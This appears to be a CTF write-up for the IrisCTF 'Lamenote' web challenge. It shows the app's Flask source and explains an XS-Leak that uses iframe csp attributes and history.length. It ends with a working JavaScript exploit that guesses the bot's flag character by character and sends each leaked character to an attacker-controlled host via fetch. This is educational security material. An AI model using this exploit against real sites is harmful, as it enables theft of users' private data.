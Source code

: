 
---

layout: post

title: "Lamenote"

date: 2024-01-11 

tag-name: web xsleak history.length iframe-csp

---

# Lamenote

Author: sera

## Introduction

The challenge source code is not that big. All what it allows us to do is create a note in a iframe and <mark class="hltr-orange">search</mark> for them. Simply as that.

Here is the route responsible for searching a certain note
```python

@app.route("/search")
@check_request
def search():
	query = request.args.get("query", "")
	user = request.cookies.get("user", None)
	results = []
	notes_copy = copy.deepcopy(NOTES)
	for note in notes_copy.values():
		if note["owner"] == user and 
		(query in note["title"] or query in note["text"]):
			results.append(note)
		if len(results) >= 5:
			break
	if len(results) == 0:
		return "<!DOCTYPE html><body>No notes.</body>"
	if len(results) == 1:
		return render_note(results[0])
		
	return "<!DOCTYPE html><body>" + "".join("<a href='/note/" + note["id"] + "'>" + note["title"] + "</a> " for note in results) + "</body>"
```

Basically it takes a `query` parameter and our session token. Then it searches for all the note that contains our query both in the title and the text.
If there are no results, it renders a dummy html page. Otherwise if there is exactly one result it <mark class="hltr-orange">renders the note</mark> with the function `render_note`. 
In the end, if there are more than 1 result it shows us the list of notes.

As you may notice there is the decorator `@check_request` which is a custom decorator that checks if the `Sec-Fetch-Dest` is equal to `iframe`. Just for checking if we are making a request from an iframe.

```python
def render_note(note):
	data = "<!DOCTYPE html><body><b>" + note["title"] + "</b><br/>"+note["text"]
	if note["image"] is not None:
		g.image_url = note["image"]
		data += "<br/><img width='100%' src='" + note["image"] + "' crossorigin />"
	data += "</body>"
	return data
```

This is the `render_code` function which all it does is simply render our note with an image in it if it was provided during the creation.

Last but not least, there is one more decorator that makes the situation more difficult. The decorator is `@app.after_request` which applies the a <mark class="hltr-orange">strict csp</mark> on every request.


```python
host = re.compile("^[a-z0-9\.:]+$")
def csp(response):
	response.headers["Content-Security-Policy"] = "default-src 'none'; frame-src 'self';";
	if "image_url" in g:
		url = g.image_url
		parsed = urlparse(url)
		if host.match(parsed.netloc) and parsed.scheme in ["http", "https"]:
		response.headers["Content-Security-Policy"] += "img-src " + parsed.scheme + "://" + parsed.hostname + ";"
	response.headers["Cross-Origin-Opener-Policy"] = "same-origin"
	response.headers["Cross-Origin-Resource-Policy"] = "same-origin"
	response.headers["Cross-Origin-Embedder-Policy"] = "require-corp"
	return response
```

The only thing that stands out here (besides the `default-src` :cry:) is the <mark class="hltr-orange">dynamic</mark> `img-src` directive that gets added if a note is created with an image in it.

## How in the world i get the flag?

As you may imagine, there is a bot in this challenge that simulates a user. The bot simply creates a note with the flag <mark class="hltr-orange">inside the body</mark> and an image. Then it visits an arbitrary url provided by us.

There is no way to achieve XSS on the same origin of the challenge, since on the note creation is checked if our input contains a `<` both in the text, in the body and in the image url that we can provide.

This point us towards an xsleak. Since the admin visits our site, we can try with some browser-sorcery to leak the flag. The question is <mark class="hltr-orange">how?</mark>

I've not solved this challenge during the CTF, since my initial idea was trying to identify differences in the loading time of the `/search` page.
I was trying to load an iframe for every character in the alphabet, and look if there were any <mark class="hltr-orange">time differences</mark> between when the flag was present and when was not.

The main idea came from this [side-channel technique](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks), and although on my local machine was working, in remote was <mark class="hltr-orange">not reliable</mark>. 
I've also thought about abuse the connection pool of chrome, but this was more a crazy idea than something feasible in this challenge.

It was clear, after a certain point, that i needed a way to detect the presence or not of the `img-src` directive, since that means the presence of an image, and in our case that we correctly <mark class="hltr-orange">guessed</mark> a char in the flag.

## Allow me to introduce you history.length

After a lot of hours were i cannot find a way to detect the csp directive the CTF ends. So i started talking with @sera and reversing the provided exploit. The idea was that if we load an iframe with the csp attribute set to `img-src 'none'` we can add the csp directive on the loaded resources.

Now, the <mark class="hltr-orange">magic begins</mark> , if the loaded resources sets the `img-src` directive the page won't load due to the fact that the browser show us an error telling that the csp that the page applies is not strong enough as stated with our supplied attribute or the `Allow-CSP-From` header is not set. Otherwise there will be no problem, since the `img-src` directive is not set and the `defaul-src` is set to `none`.

<mark class="hltr-orange">IMPORTANT</mark> : We should think of the `csp` attribute in the iframes as a <mark class="hltr-orange">minimum requirement</mark> for the target page that, if is not met, it will not render (thank you @sera for the explanation).

How we can abuse this to leak the flag? Well, @sera told me that if the page won't load showing us the `chrome-error://chromewebdata/` page the <mark class="hltr-orange">history</mark> object is not updated :boom:.

So we can use this behaviour right? Yes, but it's incomplete. We need also to <mark class="hltr-orange">redirect</mark> the iframe to itself to actually perform the state update of the `history` object (and so the length parameter) property, since otherwise it won't be updated.
Actually, to be more clear, the `history.length` property is global across all the sub-resources loaded into the page and it provides the number of entries in the history that were either changed by `history.pushState` or by regular navigations. This means that we can access it from our controlled top window.
This attack is really well documented [here](https://xsleaks.dev/docs/attacks/navigations/)

In the end the path for leaking the flag is the following:

- Creating an iframe for every character of the alphabet, pointing to the `/search` endpoint with the `query` parameter equal to the flag plus the character that we want to leak.
- After the load of the iframe, refresh it with the same source.
- Check the `history.length` and if it's equal as it was with the previous character, then this is the character that <mark class="hltr-orange">we want to leak</mark>, because the error page has not updated the `history.length` value. Otherwise just go on, updating the value that we are checking.

Here is my exploit

```javascript
const URL = "https://lamenote-web.chal.irisc.tf/search?query="
const alphabet = "_}abcdefghijklmnopqrstuvwxyz"
const REPORT="https://site"

//need to pass our URL has https://site/?search=flag-known
var FLAG = `${document.location.search.split("?")[1].split("=")[1]}`
const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

(async function(){
	async function leak(url){
		var iframe = document.createElement('iframe')
		iframe.sandbox="allow-same-origin"
		iframe.csp="img-src 'none'"
		iframe.src=url
		iframe.onload=()=>{
			setTimeout(()=>{
			iframe.onload=null
			iframe.src=url
			},100)
		}
		document.body.appendChild(iframe)
		await sleep(2000)
		let lengthHistory = window.history.length;
		return lengthHistory
	}

	//the "0" char is not in the flag since the flag format was known, 
	//and so we can use it as starting value
	var start = leak(URL+FLAG+"0") 
	//leaking 2 char at a time
	for(let y=0;y<2;y++){
		for(var c of alphabet){
			var lengthness = await leak(URL+FLAG+c)
			if(lengthness==start){
				FLAG=FLAG+c
				fetch(`${REPORT}/leaking?len=${lengthness}&char=${c}&flag=${FLAG}`)
				break
			}
		start=lengthness
		}
	}
})()

//irisctf{please_no_more_unintended_bugs}
```


We cannot create an "endless" exploit, since the `history.length` parameter as a maximum value of `50`, so i felt that 2 chars per round was a good choice. Otherwise the leak won't be reliable.

## Credits

I would like to thank @sera for dealing with me, and explaining everything that i needed to. 
Also i've found the challenge amazing






